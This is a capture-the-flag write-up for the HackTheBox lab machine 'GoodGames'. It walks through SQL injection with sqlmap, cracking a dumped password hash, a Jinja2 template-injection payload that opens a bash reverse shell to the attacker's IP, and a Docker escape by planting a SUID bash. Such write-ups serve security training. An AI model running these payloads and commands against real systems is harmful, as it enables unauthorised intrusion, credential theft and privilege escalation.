# GoodGames — HackTheBox

| Field      | Value              |
|------------|--------------------|
| Platform   | HackTheBox         |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | SQLi, SSTI, Docker escape, SUID |

---

## 1. Reconnaissance

Port scan revealed port 80 (HTTP) open.

```bash
nmap -sV -p- --min-rate 5000 <IP>
```




---

## 2. Foothold — SQL Injection

The main login page was not vulnerable to SQLi. Clicking **Sign Up** redirected to a different login panel, which was injectable.



Captured the POST request with Burp and ran sqlmap:

```bash
# Enumerate databases
sqlmap -r request.txt --batch --dbs
```



```bash
# Enumerate tables in main DB
sqlmap -r request.txt --batch -D main --tables
```



```bash
# Dump credentials
sqlmap -r request.txt --batch -D main -T user -C "email,password" --dump
```



Obtained: `admin@goodgames.htb` | `2b22337f218b2d82dfc3b6f77e7cb8ec`

Cracked with hashcat (MD5):

```bash
hashcat -m 0 2b22337f218b2d82dfc3b6f77e7cb8ec /usr/share/wordlists/rockyou.txt
# Result: superadministrator
```

---

## 3. Internal Admin Panel

Logged in as admin with `superadministrator`.





Clicking the gear icon redirected to an internal host: `internal-administration.goodgames.htb`.



Added the hostname to `/etc/hosts`:

```
<IP>  goodgames.htb internal-administration.goodgames.htb
```





Credential reuse worked — same `admin` / `superadministrator` authenticated to the internal panel.





---

## 4. RCE via SSTI

The profile name field in the internal panel was vulnerable to Server-Side Template Injection (Flask/Jinja2).

Tested with `{{7*7}}` — rendered `49`, confirming SSTI.



Triggered a reverse shell:

```bash
nc -lvnp 4444
```

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.63/4444 0>&1"').read() }}
```


Shell landed as `root` inside a Docker container.



---

## 5. Docker Escape

### Step 1 — Identify host IP and mounted directory

Inside the container, checked the default gateway to find the host:

```bash
ip route
# default via 172.19.0.1
```

Found that `/home/augustus` from the host was mounted inside the container — the home directory was accessible and writable.



### Step 2 — SSH to host as augustus

The password `superadministrator` was reused. SSHed directly to the host:

```bash
ssh augustus@172.19.0.1
# password: superadministrator
```



### Step 3 — Plant SUID bash via Docker

Back inside the container (running as `root`), copied bash into augustus's home directory and set the SUID bit:

```bash
cp /bin/bash /home/augustus/bash
chmod +s /home/augustus/bash
```



### Step 4 — Execute SUID bash on host

From the SSH session as `augustus` on the host:

```bash
./bash -p
# whoami → root
```



---

## 6. Key Takeaways

**Multiple login panels may have different security postures** — the public panel was hardened, the internal one was not. Always test every auth form found after initial access.

**Credential reuse is extremely common** — admins reuse passwords across services. Any credential recovered should be tested against SSH, internal panels, and other services immediately.

**SSTI in Jinja2 → RCE** — `{{ self.__init__.__globals__.__builtins__.__import__('os').popen(...).read() }}` is a reliable payload when filters are absent.

**Docker escape via mounted home directory** — if the host's user home is mounted inside the container and you are root inside Docker, you can write a SUID binary into the mounted directory. On the host, the binary runs with SUID root.
